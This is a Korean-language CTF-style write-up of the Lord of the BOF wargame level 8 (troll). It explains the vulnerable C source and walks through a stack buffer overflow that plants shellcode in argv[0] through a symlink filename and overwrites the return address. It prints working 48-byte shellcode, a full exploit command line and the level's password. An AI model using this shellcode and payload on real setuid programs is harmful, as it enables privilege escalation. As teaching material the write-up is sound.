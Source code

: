 ```yaml
---
title: BOF/ LOB-level8(troll)
tags: LOB
---
```


LOB란 The Lord of the BOF의 약자로 Buffer over-flow를 연습해 볼 수 있는 해킹문제이다.    
총 20문제로 구성되어 있으며 각 문제를 격파하여 다음 레벨의 패스워드를 얻는 형식이다.  
문제를 격파하고 다음 레벨의 bash를 획득하였다면 my-pass로 패스워드를 확인할 수 있다.  

 [send me email](mailto:jewel7492@gmail.com) if you have any questions.

<!--more-->

---
### LOB Level 8(orge)
**ID : orge**  
**PASSWD : timewalker**  

```bash
$ bash2
```
풀이 시작 전에 bash2로 꼭 변경  
**bash는 \xff를 \x00(NULL)로 인식하여 제대로 문제를 풀 수 없다.**  

![그림1](/assets/LOB/level8/1.PNG)  
사용자 troll의 권한의 troll파일이 있음을 확인할 수 있다.  
**set-uid가 걸려있으므로 사용자 troll의 권한으로 파일을 실행할 수 있다.**  
**troll파일이 쉘을 실행시키도록 한다면 사용자 troll의 쉘을 획득할 수 있다.**  

<br />
{% highlight C linenos %}  
/*
        The Lord of the BOF : The Fellowship of the BOF
        - troll
        - check argc + argv hunter
*/

#include <stdio.h>
#include <stdlib.h>

extern char **environ;

main(int argc, char *argv[])
{
        char buffer[40];
        int i;

        // here is changed
        if(argc != 2){
                printf("argc must be two!\n");
                exit(0);
        }

        // egghunter
        for(i=0; environ[i]; i++)
                memset(environ[i], 0, strlen(environ[i]));

        if(argv[1][47] != '\xbf')
        {
                printf("stack is still your friend.\n");
                exit(0);
        }

        // check the length of argument
        if(strlen(argv[1]) > 48){
                printf("argument is too long!\n");
                exit(0);
        }

        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);

        // buffer hunter
        memset(buffer, 0, 40);

        // one more!
        memset(argv[1], 0, strlen(argv[1]));
}
{% endhighlight %}  
**troll.c**

### 소스분석  
1. argc가 2가 아닌경우 "ergv must be two!"를 출력하고 프로그램을 종료한다.  
**argc란? - 파라미터의 개수를 의미한다. 즉 main에 최소 2개의 인자를 전달하여야 한다.**  
**[LOB(level5)](https://limjunho.github.io/2019/11/03/LOB-level5(orc).html#lob-level-5orc)와 같이 argv[2]를 이용한 공격 불가**  
2. 환경변수를 memset으로 초기화  
**환경변수를 이용한 공격 불가**  
3. argv[1][47]의 값이 \xbf가 아닌경우 "stack is still your friend" 출력 후 프로그램 종료  
**RTL기법 사용 불가 What is RTL? - [LOB(level13)](https://limjunho.github.io/2020/03/14/LOB-level13(darkknight).html)**  
5. argv[1]의 길이가 48보다 큰 경우 "argument is too long!"을 출력 후 프로그램 종료  
**RET뒤에 NOP과 ShellCode를 삽입하는 공격 불가**  
6. main에 전달받은 인자 argv[1]을 buffer에 복사하여 출력(argv[0]은 파일명)  
**strcpy함수는 복사할 데이터의 크기제한이 없기 때문에 argv[1]이 40Byte보다 크다면 buffer-overflow가 발생하는 취약점이 있다.**  
7. memset으로 buffer를 모두 0으로 초기화  
**buffer에 쉘코드를 전달하고 buffer의 주소를 BOF시키는 공격 불가**  
8. memset으로 argv[1]을 모두 0으로 초기화  
**[LOB(level6)](https://limjunho.github.io/2019/11/03/LOB-level6(wolfman).html)와 같이 argv[1]의 주소를 이용한 공격 불가**

### Solution  
**[LOB(level6)](https://limjunho.github.io/2019/11/03/LOB-level6(wolfman).html)와 매우 유사한 풀이이다.**  
**단, argv[1]을 사용할 수 없기 때문에 argv[0] 즉 파일명에 쉘코드를 전달하고 argv[0]의 주소를 buffer over-flow공격**  

**심벌릭링크?**  
링크를 연결하여 원본 파일을 직접 사용하는 것과 같은 효과를 내는 링크이다. 윈도우의 바로가기와 비슷한 개념  

#### level8에서 사용한 쉘코드  
**\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81**  
**48Byte**  
이번 문제에서 사용하는 쉘코드는 전과 달리 2f가 없도록 작성되었다. -> \x2f는 ascii 코드로 / 를 뜻한다.  
**Linux에서 파일명에 /는 경로를 의미하기 때문에 shellcode에 2f가 있다면 정상적인 공격이 어려움**  

**buffer over-flow를 이용하기 위해서는 프로그램 Stack의 구조를 알아야 한다.**  

스택구조|
---|
buffer(40Byte)|
sfp(4Byte)|
ret(4Byte)| 

**SFP(Stack frame pointer) - 이전 함수의 EBP주소를 담고 있다.**  
(EBP - 스택의 가장 바닥을 가리키는 포인터)  
**RET(Return Address) - 함수가 종료시 return될 주소**  

#### 기존 troll.c를 복사하여 argv[0]의 주소를 출력하는 코드를 추가.   
**buffer와 argv[1]을 초기화하고 main에 더 이상의 인자를 주지 못하지만 argv[0]은 초기화하지 않기 때문에 이를 이용**   

{% highlight C linenos %}  
/*
        The Lord of the BOF : The Fellowship of the BOF
        - troll
        - check argc + argv hunter
*/

#include <stdio.h>
#include <stdlib.h>

extern char **environ;

main(int argc, char *argv[])
{
        char buffer[40];
        int i;

        // here is changed
        if(argc != 2){
                printf("argc must be two!\n");
                exit(0);
        }

        // egghunter
        for(i=0; environ[i]; i++)
                memset(environ[i], 0, strlen(environ[i]));

        if(argv[1][47] != '\xbf')
        {
                printf("stack is still your friend.\n");
                exit(0);
        }

        // check the length of argument
        if(strlen(argv[1]) > 48){
                printf("argument is too long!\n");
                exit(0);
        }

        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);
        printf("%p\n", argv[0]);

        // buffer hunter
        memset(buffer, 0, 40);

        // one more!
        memset(argv[1], 0, strlen(argv[1]));
}
{% endhighlight %}  
**troll.c를 복사하여 소스 추가 -> printf("%p\n", argv[0]);**  


![그림2](/assets/LOB/level8/2.PNG)  
위의 방법으로 argv[0]의 주소를 획득.  
argv[0]의 주소 -> 0xbffffbb9  

**파일명의 길이가 원본 실행파일(troll)의 심벌릭링크와 길이가 같아야 한다.**  
argv[0]의 길이가 다르면 원본파일의 argv[0]의 주소와 다른 주소를 얻을 수 있기 때문.  


![그림3](/assets/LOB/level8/3.PNG)  
set-uid가 걸린 원본파일에 쉘코드를 이름으로 심벌릭링크 등록  

### Attack  

argv[0]의 주소와 스택의 구조를 파악하였으므로 공격을 시도할 수 있다.  
**./troll + [dummy] + [argv(0)주소]**의 형태로 공격.  
**이 때 dummy값의 길이는 buffer의 길이 + sfp(4byte)만큼 즉 44Byte여야 한다.**  
**또한 RET에 덮을 argv[0]의 주소는 리틀 엔디안 방식으로 기입한다.**  

**리틀 엔디안은 최 하위 바이트 부터 저장하는 방식이다.**  
ex) 0xbffffc11을 리틀 엔디안 방식으로 저장하면 11cfffbf가 된다.  
보통 엔디안 방식은 CPU 아키텍쳐에 따라 다르지만 intel x86, x64, AMD 계열은 리틀엔디안, 모토로라 프로세서들은 빅엔디안을 사용한다.  
현재 시스템의 엔디안방식을 확인하고 싶다면 echo -n I | od -to2 | head -n1 | awk'{print $2;}' | cut -c6  
명령으로 나오는 값이 1이라면 리틀 엔디안, 0이라면 빅엔디안이다.  

![그림4](/assets/LOB/level8/4.PNG)  
공격 성공.   

**페이로드**  
```bash
$ ./`python -c "print '\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81'"` `python -c "print 'A'*44 + '\xcd\xfb\xff\xbf'"`
```
